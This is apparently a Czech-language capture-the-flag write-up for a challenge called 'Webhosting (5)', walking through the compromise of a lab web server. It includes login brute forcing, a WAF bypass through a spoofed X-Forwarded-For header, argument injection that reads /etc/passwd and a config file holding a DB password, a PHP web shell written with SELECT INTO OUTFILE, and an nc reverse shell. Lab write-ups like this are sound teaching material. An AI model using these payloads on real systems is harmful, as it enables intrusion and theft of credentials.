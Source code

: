 # Webhosting (5)

## Zadání

Hi, emergency troubleshooter,

we are preparing to put a new web hosting service into operation. Verify that it is secure and that no secret or classified information can be accessed. The testing instance is running on `wwwhost-new.powergrid.tcc`.

Stay grounded!

## Řešení

Nejdříve uděláme port scan počítače ze zadání.

`nmap wwwhost-new.powergrid.tcc -sV -sC`

```text
PORT     STATE SERVICE VERSION
8000/tcp open  http    Apache httpd 2.4.65 ((Debian))
|_http-server-header: Apache/2.4.65 (Debian)
|_http-title: 403 Forbidden
```

Na počítači běží WEB server, ale stránka se nezobrazí. Na serveru je zřejmě aktivovaný nějaký druh WAF (Web Application Firewall), který kontroluje požadavky a filtruje ty potenciálně nebezpečné. Proto je potřeba změnit `User-Agent`.

`ffuf -u http://wwwhost-new.powergrid.tcc:8000/FUZZ -w /usr/share/dirb/wordlists/common.txt -H "User-Agent: Firefox" -fc 403`

Je nalezen adresář `app`.

Stránka `http://wwwhost-new.powergrid.tcc:8000/app` zobrazí přihlašovací dialog.

`ffuf -u http://wwwhost-new.powergrid.tcc:8000/app/FUZZ -w /usr/share/dirb/wordlists/common.txt -H "User-Agent: Firefox" -fc 403`

```text
                        [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 33ms]
css                     [Status: 301, Size: 347, Words: 20, Lines: 10, Duration: 8ms]
index.php               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 9ms]
lang                    [Status: 301, Size: 348, Words: 20, Lines: 10, Duration: 8ms]
log                     [Status: 301, Size: 347, Words: 20, Lines: 10, Duration: 8ms]
tools                   [Status: 301, Size: 349, Words: 20, Lines: 10, Duration: 7ms]
uploads                 [Status: 301, Size: 351, Words: 20, Lines: 10, Duration: 8ms]
```

Další adresáře nejsou přístupné, bude potřeba se přihlásit. Pokud se zadá uživatel `admin` nebo `test`, server odpoví `Uživatel nalezen, ale heslo není správné.`. Takže musíme získat heslo pro uživatele `admin` nebo `test`.

`ffuf -u http://wwwhost-new.powergrid.tcc:8000/app/login.php -data "username=admin&password=FUZZ" -w rockyou.txt -H "User-Agent: Firefox" -H "Content-Type: application/x-www-form-urlencoded" -fs 1618`

Nalezeno heslo `Princess25` pro `admin`.

Po přihlášení se zobrazí `Hlavní menu`.

* Admin nástroje
* DB manager
* Zobrazit Log přihlášení
* Zobrazit Log událostí
* Odhlásit se

V Logu událostí jsou zajímavé řádky

* Server: Modsecurity installed
* Server: Modsecurity - IP 203.0.113.10 whitelisted

Na serveru je tedy aktivní WAF [Modsecurity](https://github.com/owasp-modsecurity/ModSecurity), ale je možné ho deaktivovat použitím hlavičky `X-Forwarded-For: 203.0.113.10`.

Stránka `Admin nástroje` umožňuje vypsat zadaný počet řádek z předvyplněného souboru `/var/www/html/app/log/logins.log`, který ale nelze změnit, je možné zadat jen počet řádek.

Ve vhodném doplňku prohlížeče (např. [x-forwarded-for](https://github.com/MisterPhilip/x-forwarded-for)) vyplníme `X-Forwarded-For: 203.0.113.10` pro deaktivaci ModSecurity.

Když odešleme `999999 -v /etc/passwd`, obsah se vypíše.

Řešení této úlohy jsou dvě.

1. Prozkoumáme inicializační soubor dockeru `/entrypoint.sh`

    `999999 -v /entrypoint.sh`

    ```text
    ...
    mkdir -p /secrets
    chown 0755 /secrets
    echo ${WEBHOSTING_FLAG} > /secrets/flag.txt

    unset -v WEB_ADMIN_PASS WEB_TEST_PASS DB_PASS WEBHOSTING_FLAG

    #rm /entrypoint.sh
    ...
    ```

    Flag je tedy v souboru `/secrets/flag.txt`. Odstranění souboru `/entrypoint.sh` je zakomentované, což je asi opomenutí.

    Můžeme si tedy vypsat flag

    `999999 -v /secrets/flag.txt`

1. Hlavní menu obsahuje odkaz na `DB manager`, což je PHP SQL manager [Adminer 5.3.0](https://www.adminer.org). Tato verze nemá žádné známe zranitelnosti, musíme zjistit heslo.

   `999999 -v login.php`

   ```php
   <?php
    require_once 'db.php';

    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $username = $_POST['username'];
        $password = $_POST['password'];
    ...
    ```

    `999999 -v db.php`

    ```php
    <?php
    require_once 'config.php';

    try {
        $pdo = new PDO("mysql:host=" . DB_HOST . ";dbname=" . DB_NAME, DB_USER, DB_PASS);
        $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
    } catch (PDOException $e) {
        die("DB Connection failed: " . $e->getMessage());
    }
    ```

    `999999 -v config.php`

    ```php
    <?php
    session_start();

    define('DB_HOST', 'localhost');
    define('DB_NAME', 'myapp');
    //define('DB_USER', 'developer');
    define('DB_USER', 'svc_myapp');
    define('DB_PASS', '423e5dc8f0db6b19c85d87d69af31844');
    ```

    Pro přihlášení do Adminera funguje

    `svc_myapp / 423e5dc8f0db6b19c85d87d69af31844`

    i

    `developer / 423e5dc8f0db6b19c85d87d69af31844`.

    Uživatel `svc_myapp` má oprávnění na čtení tabulek a vkládání řádek do tabulky `myapp.login_logs`

    Uživatel `developer` má oprávnění `Server - File`. Toho využijeme pro nahrání PHP souboru, který umožní spouštět příkazy.

    `SELECT '<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";?>' INTO OUTFILE '/var/www/html/app/uploads/EngyCZ_x.php'`

    spustíme reverse shell

    `http://wwwhost-new.powergrid.tcc:8000/app/uploads/EngyCZ_x.php?cmd=nc 10.200.0.91 4444 -e /bin/sh`

    a snadno najdeme FLAG

    `find / | grep flag`

## Flag

`FLAG{BCba-VkYk-Kw3N-HFPw}`
